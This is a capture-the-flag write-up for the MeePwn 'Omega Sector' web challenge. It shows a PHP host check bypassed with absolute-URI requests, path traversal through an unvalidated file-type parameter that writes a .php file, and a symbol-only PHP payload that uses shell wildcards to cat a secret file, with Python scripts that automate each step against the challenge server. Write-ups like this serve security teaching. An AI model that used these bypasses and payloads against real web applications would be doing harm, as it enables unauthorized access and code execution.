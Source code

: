 # Omega Sector (web, 44 solved, 140p)

This was a 2 stage web challenge.
Frist part was to get authenticated into the system.

## Authenticate

For starters we get [php source code](index.php) by finding hint in the html about `is_debug=1` parameter.
The important part is:

```php
$remote=$_SERVER['REQUEST_URI'];

if(strpos(urldecode($remote),'..'))
{
mapl_die();
}

if(!parse_url($remote, PHP_URL_HOST))
{
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$whoareyou=parse_url($remote, PHP_URL_HOST);


if($whoareyou==="alien.somewhere.meepwn.team"){
```

After we pass this check we can authenticate.
The tricky part is that normally `REQUEST_URI` contains only the file path, not the hostname.
And if there is no hostname there, then we get into the condition and overwrite the `$remote` with our own IP.
But if we go to https://secure.php.net/manual/pl/reserved.variables.server.php and read a bit we can find:

```
Note that $_SERVER['REQUEST_URI'] might include the scheme and domain in certain cases.
```

Basically we can send request:

```
GET http://human.ludibrium.meepwn.team?human=Yes 
HTTP/1.0
Host: human.ludibrium.meepwn.team
Connection: close


```

And it will pass the check just fine.
We can do the same for `alien` and therefore get session cookies authenticated to access `omega_sector.php` and `alien_sector.php`.

We can automate this with:

```python
    from crypto_commons.netcat.netcat_commons import nc
    s = nc("138.68.228.12", 80)
    s.sendall("GET http://human.ludibrium.meepwn.team?human=Yes HTTP/1.0\r\nHost: human.ludibrium.meepwn.team\r\nConnection: close\r\n\r\n")
    print(s.recv(9999))

    s = nc("138.68.228.12", 80)
    s.sendall("GET http://alien.somewhere.meepwn.team?alien=%40!%23%24%40!%40%40 HTTP/1.0\r\nHost: alien.somewhere.meepwn.team\r\nConnection: close\r\n\r\n")
    print(s.recv(9999))
```

## Exploit

Once we get authenticated we can explore new parts of the system.
Both look similar - there is a textbox where we can place some input and save it.

Once we do this, we get the filepath to the resulting file, for example: `Saved in human_message/239fe816a898ca6b036c5b21970af279.human`
And we can verify, the file is there.

If we look at the POST request, we can see that we control 2 parameters -> message and type.
Type is interesting because it is set to `human` here, and it seems there is no validation.
We can change it to `php` if we want.

In fact we can go even further, because we can set it to `'/../../alien_message/somefunnyname.php'`, and save file from `human` part in `alien` part if we want to.
More importantly, we can control the filename this way.


We can automate sending payloads by:

``python
def send_alien(content, path):
    r = requests.post('http://138.68.228.12/alien_sector.php', data={'message': content, 'type': path},
                      headers={'Cookie': 'PHPSESSID=a3bdqr9r40csph3el906dphtc0'})
    print(r.text)
```


Now the last part is to actually gain RCE and execute some code, because we need to gain access to `secret.php` file.
The difficulty is that the charsets are restricted.
We run a simple charset checker script and it showed us that basically human can use only letters, digits and whitespaces, and alien can use symbols and punctation.
We can't combine them, because the files are always overwritten, so we need to create the payload from only one of those.
It's clear we won't get PHP code without `<?` so the only choice is the alien part.

We can send:

    <?= `something here` ?>

To execute some code in the system shell.
We decided to run: `/???/??? ../??????.??? > ===`.

For those unfamiliar with bash path wildcards, `/???/???` matches `/bin/cat`, `../??????.???` matched `secret.php` and `===` is actually a proper filename.
So we're actually running `/bin/cat ../secret.php > ===`, efectively copying the secret file contents.
This is of course a bit random, because matching is alphabetical and some other 3-letter binary will also match, but we don't care.

After that we can simply read contents of `alien_message/===` to get the flag: `MeePwnCTF{__133-221-333-123-111___}`
